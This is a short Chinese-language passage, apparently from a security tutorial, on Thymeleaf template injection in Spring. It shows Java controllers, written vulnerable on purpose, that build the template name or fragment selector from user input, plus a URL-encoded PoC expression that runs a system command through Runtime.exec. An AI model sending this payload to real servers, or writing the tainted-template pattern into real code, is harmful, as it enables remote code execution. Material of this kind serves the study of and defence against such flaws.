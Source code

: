 ### templatename

```java title="漏洞代码"
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}
```

```title="PoC"
/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
```

通过`__${}__::.x`构造表达式由Thymeleaf去执行

![alt text](img/4.png)

### selector

可控点变为了selector位置

```java title="漏洞代码"
@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section; //fragment is tainted
}
```
